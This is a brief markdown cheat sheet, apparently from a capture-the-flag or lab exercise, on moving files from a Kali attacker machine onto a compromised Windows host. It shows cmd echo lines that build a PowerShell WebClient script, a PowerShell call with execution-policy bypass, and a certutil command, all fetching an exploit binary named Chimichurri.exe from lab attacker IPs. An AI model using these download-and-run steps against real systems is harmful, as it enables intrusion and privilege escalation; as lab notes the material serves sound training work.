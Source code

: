 
## Download files from Kali machine to Windows using cmd & powershell

Failed to migrate powershell from cmd. \
In that case, to download binaries from Kali to Windows, use following commands.\

```
C:\ColdFusion8> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\ColdFusion8> echo $url = "http://10.10.14.10/chimichurri.exe" >>wget.ps1
C:\ColdFusion8> echo $file = "exploit.exe" >>wget.ps1
C:\ColdFusion8> echo $webclient.DownloadFile($url,$file) >>wget.ps1
C:\ColdFusion8> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile 
```


## Download files from Kali machine to Windows using certutil command

```
certutil.exe -urlcache -split -f http://10.10.14.19:8989/Chimichurri.exe Chimichurri.exe
```



